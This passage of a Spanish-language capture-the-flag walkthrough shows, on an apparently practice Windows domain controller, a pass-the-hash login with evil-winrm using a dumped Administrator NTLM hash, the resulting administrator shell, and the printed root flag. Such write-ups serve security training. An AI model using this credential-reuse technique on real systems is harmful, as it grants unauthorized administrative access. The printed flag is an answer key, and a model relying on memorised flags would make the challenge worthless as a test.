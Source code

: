 Veremos que ha funcionado y obtendremos los `hashes` de los usuarios del dominio, pero el que nos interesa es el del `Administrador`, podemos intentar `crackearla` o tambien podremos realizar un `Pass-The-Hash` mediante `WinRM`.

```shell
evil-winrm -i <IP> -u Administrator -H '8982babd4da89d33210779a6c5b078bd'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
```

Con esto ya seremos el usuario `Administrador` por lo que leeremos la `flag` del `admin`.

> root.txt

```
d41d8cd98f00b204e9800998ecf8427e
```
